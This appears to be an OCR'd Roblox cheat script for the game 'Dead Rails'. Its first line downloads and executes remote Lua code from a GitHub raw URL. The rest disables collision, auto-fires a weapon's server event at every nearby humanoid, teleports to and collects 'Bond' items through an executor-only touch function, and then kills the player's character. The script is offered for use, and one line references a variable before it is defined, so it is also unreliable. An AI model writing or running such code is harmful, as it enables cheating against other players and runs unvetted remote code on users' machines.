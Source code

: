 loadstring(game:HttpGet("https://raw.githubusercontent.com/Marco8642/science/refs/heads/ok/dead%20rails"))()
task.wait(1)

local p, c = game.Players.LocalPlayer, p.Character or p.CharacterAdded:Wait()
local r, h, g = c:FindFirstChild("HumanoidRootPart"), c:FindFirstChild("Humanoid"), c:FindFirstChild("Revolver") or p.Backpack:FindFirstChild("Revolver")

game:GetService("RunService").Stepped:Connect(function()
    for _, v in pairs(c:GetDescendants()) do 
        if v:IsA("BasePart") then v.CanCollide = false end 
    end
end)

local function shoot(b) 
    if g and b:FindFirstChild("HumanoidRootPart") then 
        local e = g:FindFirstChild("FireEvent") or game.ReplicatedStorage:FindFirstChild("FireEvent")
        if e then e:FireServer(b.HumanoidRootPart.Position + Vector3.new(0, 1.5, 0)) end 
    end 
end

while task.wait(1) do
    for _, b in ipairs(workspace:GetChildren()) do 
        if b:IsA("Model") and b:FindFirstChild("Humanoid") and b ~= c then 
            shoot(b) 
            task.wait(0.5) 
        end 
    end
    task.wait(1)

    local bonds, total = 0, 0
    for _, bond in ipairs(workspace:GetChildren()) do 
        if bond:IsA("Part") and bond.Name == "Bond" and bond.Parent and bond.Parent:IsA("Model") and bond.Parent.Name == "BanditHouse" then
            total = total + 1
            
            bond.CanCollide = false
            bond.Anchored = false
            
            r.CFrame = bond.CFrame + Vector3.new(0, 1, 0)
            task.wait(0.1)
            firetouchinterest(r, bond, 0)
            firetouchinterest(r, bond, 1)

            h:MoveTo(bond.Position + Vector3.new(0, 1, 0))
            task.wait(0.5)
            
            bonds = bonds + 1
            task.wait(0.2)
        end 
    end

    if bonds > 0 and bonds == total and h then 
        task.wait(1) 
        h.Health = 0 
    end
end
